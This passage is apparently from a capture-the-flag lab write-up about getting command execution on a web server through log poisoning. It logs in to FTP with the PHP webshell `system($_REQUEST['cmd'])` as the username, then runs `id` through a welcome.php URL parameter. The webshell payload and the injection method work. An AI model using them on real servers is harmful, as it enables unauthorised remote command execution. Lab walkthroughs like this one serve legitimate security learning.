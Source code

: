 ![PHP - Whoami - www-data](./screenshots/rceinlogs.jpg)

Since not a lot information isn't know about the system i like to create a simple webshell 

so logging in with 

```bash
─$ ftp 10.10.244.151
Connected to 10.10.244.151.
220 (vsFTPd 3.0.3)
Name (10.10.244.151:kali): <?php system($_REQUEST['cmd']); ?>
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp>
```
we can navigation to the url http://10.10.244.151/welcome.php?cmd=id and press log and a output line 'uid=33(www-data) gid=33(www-data) groups=33(www-data)' is visible meaing we have a very simple and working webshell.

